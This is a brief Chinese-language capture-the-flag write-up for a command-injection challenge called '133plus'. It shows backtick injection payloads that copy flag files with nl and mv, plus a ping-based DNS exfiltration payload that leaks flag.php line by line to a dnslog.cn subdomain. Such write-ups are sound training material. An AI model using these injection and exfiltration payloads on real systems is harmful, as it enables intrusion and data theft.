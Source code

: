 133plus

这题ban了很多命令

但是没ban nl,mv，可以用nl和cp把flag写到其他文件中

payload:

```
`$F `;nl f*>1.txt
`$F `;mv f*>1.txt
```

![image-20250124150917001](assets/image-20250124150917001.png)

这题也可以用ping进行外带

```
`$F`;+ping `cat flag.php|awk 'NR==2'`.6x1sys.dnslog.cn
#通过ping命令去带出数据，然后awk NR一排一排的获得数据
```
